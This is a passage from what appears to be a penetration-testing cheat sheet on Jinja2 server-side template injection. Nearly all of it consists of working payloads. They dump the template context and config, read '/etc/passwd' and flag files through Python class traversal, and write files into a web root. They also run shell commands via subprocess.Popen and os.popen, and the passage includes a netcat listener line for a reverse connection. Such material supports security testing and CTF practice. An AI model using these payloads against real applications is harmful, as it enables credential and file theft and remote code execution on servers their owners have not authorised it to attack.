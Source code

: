 [](#jinja2---debug-statement)

Jinja2 - Debug Statement

If the Debug Extension is enabled, a `{% debug %}` tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.

    <pre>{% debug %}</pre>

Source: [https://jinja.palletsprojects.com/en/2.11.x/templates/\#debug-statement](https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement)

[](#jinja2---dump-all-used-classes)

Jinja2 - Dump all used classes

    {{ [].class.base.subclasses() }}
    {{''.class.mro()[1].subclasses()}}
    {{ ''.__class__.__mro__[2].__subclasses__() }}

[](#jinja2---dump-all-config-variables)

Jinja2 - Dump all config variables

    {% for key, value in config.iteritems() %}
        <dt>{{ key|e }}</dt>
        <dd>{{ value|e }}</dd>
    {% endfor %}

[](#jinja2---read-remote-file)

Jinja2 - Read remote file

    # ''.__class__.__mro__[2].__subclasses__()[40] = File class
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    {{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}

[](#jinja2---write-into-remote-file)

Jinja2 - Write into remote file

    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}

[](#jinja2---remote-code-execution)

Jinja2 - Remote Code Execution

Listen for connection

    nv -lnvp 8000

[](#exploit-the-ssti-by-calling-subprocesspopen)

Exploit the SSTI by calling subprocess.Popen.

⚠️ the number 396 will vary depending of the application.

    {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
    {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
